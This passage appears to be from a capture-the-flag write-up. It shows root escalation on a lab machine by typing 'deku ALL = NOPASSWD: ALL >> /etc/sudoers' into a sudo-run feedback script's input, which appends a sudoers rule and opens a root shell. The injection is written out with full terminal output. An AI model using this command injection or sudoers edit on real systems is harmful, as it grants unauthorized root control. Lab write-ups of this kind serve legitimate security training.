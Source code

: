 So this has to be manipulated so that I can get root access. I thought of adding deku into the `/etc/sudoers` files after which I can get the root access easily by running `sudo bash`.

From StackOverflow:
```
To give the user "foo" unlimited passwordless access to root privileges via the sudo command, edit /etc/sudoers and add the line:

foo   ALL = NOPASSWD: ALL
```

I initially gave the input as `<user> ALL=(ALL:ALL) ALL`, but as it contains parenthesis, it is being rejected. Then I used the above one.

```
deku@myheroacademia:/opt/NewComponent$ sudo ./feedback.sh
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
deku ALL = NOPASSWD: ALL >> /etc/sudoers
It is This:
Feedback successfully saved.
deku@myheroacademia:/opt/NewComponent$ sudo -l
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
    (root) NOPASSWD: ALL
```

**The key point to note here is to run the feedback.sh file with sudo, as making changes to the sudoers file requires root permissions.**

```
deku@myheroacademia:/opt/NewComponent$ sudo bash
root@myheroacademia:/opt/NewComponent# whoami
root
root@myheroacademia:/opt/NewComponent# id
uid=0(root) gid=0(root) groups=0(root)
root@myheroacademia:/opt/NewComponent# 
```

And here we get the root shell.
